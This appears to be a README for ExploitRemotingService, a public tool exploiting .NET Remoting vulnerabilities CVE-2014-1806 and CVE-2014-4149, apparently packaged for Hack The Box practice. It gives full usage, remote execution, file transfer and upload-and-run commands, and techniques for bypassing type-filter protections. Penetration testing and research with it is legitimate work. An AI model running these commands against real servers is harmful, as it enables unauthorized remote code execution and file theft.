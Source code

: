ExploitRemotingService (c) 2014 James Forshaw |  Complied Exe For HTB
=============================================

A tool to exploit .NET Remoting Services vulnerable to CVE-2014-1806 or CVE-2014-4149.
It only works on Windows although some aspects _might_ work in Mono on *nix.

NOTE: The vulnerable service provided in this repo has intentionally disabled the 
security fix so that you can test the tools are working. This shouldn't be a common
configuration.

Usage Instructions:
===================

<pre>
ExploitRemotingService [options] uri command [command args]
Copyright (c) James Forshaw 2014

Uri:
The supported URI are as follows:
tcp://host:port/ObjName   - TCP connection on host and portname
ipc://channel/ObjName     - Named pipe channel

Options:

  -s, --secure               Enable secure mode
  -p, --port=VALUE           Specify the local TCP port to listen on
  -i, --ipc=VALUE            Specify listening pipe name for IPC channel
      --user=VALUE           Specify username for secure mode
      --pass=VALUE           Specify password for secure mode
      --ver=VALUE            Specify version number for remote, 2 or 4
      --usecom               Use DCOM backchannel instead of .NET remoting
      --remname=VALUE        Specify the remote object name to register
  -v, --verbose              Enable verbose debug output
      --useser               Uses old serialization tricks, only works on
                               full type filter services
      --uselease             Uses new serialization tricks by abusing lease
                               mechanism.
      --nulluri              Don't send the URI header to the server
      --autodir              When useser is specified try and automatically
                               work out the installdir parameter from the
                               server's current directory.
      --installdir=VALUE     Specify the install directory of the service
                               executable to enable full support with useser
  -h, -?, --help

Commands:
exec [-wait] program [cmdline]: Execute a process on the hosting server
cmd  cmdline                  : Execute a command line process and display stdout
put  localfile remotefile     : Upload a file to the hosting server
get  remotefile localfile     : Download a file from the hosting server
ls   remotedir                : List a remote directory
run  file [args]              : Upload and execute an assembly, calls entry point
user                          : Print the current username
ver                           : Print the OS version
raw base64_object             : Send a raw serialized object to the service
</pre>

This tool supports exploit both TCP remoting services and local IPC services. To test 
the exploit you need to know the name of the .NET remoting service and the port it's
listening on (for TCP) or the name of the Named Pipe (for IPC). You can normally find 
this in the server or client code. Look for things like calls to:

RemotingConfiguration.RegisterWellKnownServiceType or Activator.CreateInstance

You can then try the exploit by constructing an appropriate URL. If TCP you can use the 
URL format tcp://hostname:port/ServiceName. For IPC use ipc://NamedPipeName/ServiceName. 

A simple test is to do:

ExploitRemotingService SERVICEURL ver

If successful it should print the OS version of the hosting .NET remoting service. If 
you get an exception it might be fixed with CVE-2014-1806. At this point try the COM 
version using:

ExploitRemotingService -usecom SERVICEURL ver

This works best locally but can work remotely if you modify the COM configuration and
disable the firewall you should be able to get it to work. If that still doesn't work
then it might be an up to date server. Instead you can also try the full serialization 
version using.

ExploitRemotingService -useser SERVICEURL ls c:\

For this to work the remoting service must be running with full typefilter mode enabled
(which is some, especially IPC services). It also only works with the commands ls, put
and get. But that should be enough to compromise a box. 

ExploitRemotingService -uselease SERVICEURL ls c:\

This mode bypasses low typefilter mode to get serialization tricks to work. It also only 
works with the commands ls, put and get. But that should be enough to compromise a box. 

ExploitRemotingService -uselease -autodir SERVICEURL exec notepad

The autodir option tries to work out the location of the service and will upload a DLL
to enable full remoting support including exec.
